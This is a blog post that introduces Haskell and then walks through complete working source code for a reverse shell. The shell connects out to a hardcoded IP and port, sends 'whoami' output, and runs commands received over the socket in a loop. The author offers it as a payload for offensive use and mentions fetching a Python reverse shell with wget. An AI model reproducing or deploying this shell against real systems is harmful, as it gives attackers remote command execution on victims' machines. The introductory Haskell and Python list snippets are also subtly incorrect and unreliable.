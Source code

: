 layout: page
title: "Writing A Reverse Shell In Haskell"
permalink: /Writing-A-Reverse-Shell-In-Haskell

While I was developing a vulnerable box for the TryHackMe teaching platform, I wrote a small Flask app that accepts a Haskell file upload and compiles/runs it. This was intended to be abused by attackers in order to get an initial foothold through running a Haskell program and then escalate to root. Like any good box maker I had to test it and make sure it was solvable. My initial solution to the foothold was a short Haskell program that uses the System.Process library in order to call system functions. Since redirection was really janky I couldn’t do a lot of things, so my workaround was to wget a Python reverse shell and then run it. This worked, but I thought “Surely someone has written a reverse shell in this language”. Much to my surprise, Google turned up empty. Original thought isn’t dead!

I attribute this to a few things: Haskell is a somewhat niche language, it’s not very easy to pick up, and it’s pretty limited in its applications for offensive security. Ironically, Haskell is an incredibly safe language because of all the type checking, lack of side effects, and how easy it makes proving functions! Anyways, I figured that since no one had done it before, I ought to write a reverse shell. I’m currently completing my OSCP and have been using PayloadAllTheThings like a zealot, so this seems like my chance to give back in a very niche fashion if for some reason someone needs a Haskell reverse shell.

# A Brief Introduction To Haskell (Skip this if you just wanna see the shellz)
Here’s a few cool things about Haskell:

* Haskell is statically typed, so if we assign a variable to an integer the compiler knows it’s going to stay an integer
* Functions have no side effects. The only thing that a function can do is compute something and return its value.
* Haskell is lazy. This means it won’t compute values until we actually ask for them. This comes in handy if we, say, want to work with an infinitely long list. We can declare an infinitely long list, and if we try to access list indexes very far into the list, Haskell won’t compute that until we ask for it.
* Haskell is super concise. It’s very easy to write very short, incredibly powerful one liners

Here’s a brief comparison between Haskell and Python, as many people have experience with Python. The problem will be to reverse a list and return a list containing the new first and last index. For example, if the input is [1,2,3,4], the output is [4,1]. We’ll assume “x” is our variable equal to the input.

Python: 

'''python
x.reverse[0].append(x.reverse[-1])
'''
If you’re familiar with List objects in Python, you know that what we’re doing behind the scenes is accessing the reverse, getitem (to access the index), and append methods of the List class in order to perform this operation.

Haskell:

'''haskell
(head (reverse x)):(tail (reverse x)):[]
'''
In Haskell, we’re calling the head function to get the first item, the reverse function to give us a reversed list, the tail function to get the last item, and then appending it using the “:” list constructor onto an empty list. We did all of this just with functions, how cool is that!

Additionally, we could tell Haskell what we want to input/output from our function. So in this case, we’re inputting a list of integers and returning a list of integers. So we could tell Haskell:
'''haskell
funcName :: [Int] -> [Int]
'''
If we try to pass in a string or a list of strings, then Haskell will throw an error at compilation. This can also be abstracted, so if we wanted to take a list of something and return a single something we could declare:
'''haskell
funcName :: [a] -> a
'''
Where “a” is our generic data type. Contrast this to Python, where we can take the example above and nothing prevents us from passing in a number. But when the function tries to run, it’ll try to call the reverse method of the Integer class, which will fail because there isn’t one. With Haskell, we know what we’re getting.

This is just a short description of Haskell, it’s an incredibly powerful language and I suggest that you dig deeper into it.

# Writing Our Reverse Shell
Anyways, now that you’ve had a brief introduction to how Haskell works, let’s get into the reverse shell. We’ll dissect it a few lines at a time.

'''haskell
import Network.Socket hiding (send, sendTo, recv, recvFrom)
import Network.Socket.ByteString (send, recv)
import qualified Data.ByteString.Char8 as B8
import System.Process
import System.IO
import Control.Exception

main = do
        client "192.168.126.128" 1234
'''

Pretty self explanatory. This is just our imports and our main function call, similar to Java/C/etc.

'''haskell
client :: String -> Int -> IO ()
client host port = withSocketsDo $ do
                addrInfo <- getAddrInfo Nothing (Just host) (Just $ show port)
                let serverAddr = head addrInfo
'''

This is the start function that we call in main. I’ve pulled a short snippet because I want to address a few Haskell syntax things.

First, at a high level, what we’re doing here is constructing the addrInfo data type that we need to grab information from to pass to a later function.

Why do some lines have a <- and some have a “let x = y”? The <- operator is used for IO actions in this case. Essentially, it will actually perform the IO operation and then bind it to the variable, performing a monadic binding and let us work with that variable differently. The “let =” operator binds whatever the value is to a variable literally.

The $ operator is used for function application. For (Just $ show port), “Just” is a data type that lets us say “The result of this function MAY BE this, but it also MAY BE Nothing”. The “show” function takes a value and outputs that value as a string. If we had “(Just show port)”, then that could be interpreted as us trying to declare “show” as a variable of the “Maybe” type (of which Just is a subtype). But that’s not what we want, we want to apply Just to the result of “show port”.

'''haskell
sock <- socket (addrFamily serverAddr) Stream defaultProtocol
connect sock (addrAddress serverAddr)
(_, Just hout, _, _) <- createProcess (proc "whoami" []) {std_out = CreatePipe}
resultOut <- hGetContents hout
let resultMsg = B8.pack resultOut
send sock resultMsg
msgSender sock
close sock
'''

Now the rest of this function. We’ll pass in the first item of our addrInfo data type, serverAddr, cast as an addrFamily data type. Haskell will detect the protocol used for us, in this case TCP. This creates the socket that we’re going to pass around for the rest of this program. Then, we’ll call the connect function and pass in the socket and server address.

Next is the meat and potatoes of the command execution, we call createProcess and pass in “whoami” as our process, creating a pipe for standard out. I used whoami as it works on both Linux and Windows. If you’re curious about the underscores in (_, Just hout, _, _) those essentially mean that we don’t care what they are because we’re not going to use them, so we don’t need to assign them to a variable. If we wanted to use them all they would be stdin, stdout, stderr, and a handle to the process (in that order). Then we can get the results of our command using the IO operation hGetContents and use ByteString to pack them into a network friendly form. Then we’ll send the result of that command, so the user on the receiving end knows who they are, and call the function that’s going to do the heavy lifting.

'''haskell
msgSender :: Socket -> IO ()
msgSender sock = do
  let msg = B8.pack ""
  send sock msg
  rMsg <- recv sock 2048
  let split_cmd = words (filter (/= '\n') (B8.unpack rMsg))
  print split_cmd
  result <- try' $ createProcess (proc (head split_cmd) (tail split_cmd)) {std_out = CreatePipe, std_err = CreatePipe}
  case result of 
    Left ex                            -> sendError sock ex
    Right (_, Just hout, Just herr, _) -> sendResult sock (Nothing, Just hout, Just herr, Nothing)
  msgSender sock
'''

If you’ve made it this far, I promise that we’re almost done with all the convoluted Haskell stuff! This function is going to infinitely loop in order to call commands, return their output, and then wait again. The program receives a message from the user, removes all new lines via filter, and uses the words function to create a list split on every space. We have to do this as createProcess takes a list of arguments to the command. Then, we’ll run our program the same as before, but this time we’ll also create an std_err pipe as we want to know when things go wrong. You’ll also notice the “try’” function call with the $ function applicator. 

'''haskell
try' :: IO a -> IO (Either IOException a)
try' = try
'''

Adding an apostrophe to a function name is the standard way to denote a modified version of an existing function in Haskell. This takes the existing try function, but specifies it so that it takes a generic IO type in and returns an “Either” data type, which allows us to handle exceptions. This is necessary because while a command returning an error isn’t a problem, if we try to run a non-existent command then the shell would just crash.

We can then use a case statement for error handling.In other languages this would be a switch statement or a series of if statements. Our try function will return “Left” if the command had an exception, and “Right” if it succeeded. So if it fails, we’ll send the error message back to the user. If it didn’t fail, we’ll send back the output and any error messages that were a product of the command. Then we call the function again and loop back. 

'''haskell
sendError sock err = do
  let errorMsg = B8.pack ("Error:" ++ show err ++ "\n")
  send sock errorMsg
  
sendResult sock (_, Just hout, Just herr, _) = do
    resultOut <- hGetContents hout
    errorOut <- hGetContents herr
    let resultMsg = B8.pack resultOut
    let errorMsg = B8.pack errorOut
    send sock resultMsg
    send sock errorMsg
'''

The last component are the functions that will send a system error back to the user if the command causes an exception, and the function that sends back the results of the command. These are pretty self explanatory.

And that’s how you implement a reverse shell in Haskell! Hopefully you learned something new from this post. If you’ve never used a functional programming language before, I highly recommend that you do a bit of reading on them. Personally I wasn’t super fluent with Python’s Lambda functions or list comprehensions, but after learning some Haskell I have no problem writing them on the fly. There’s no feeling of power quite like writing a 500 character one liner to process a data set that would’ve taken 20 characters in Excel.
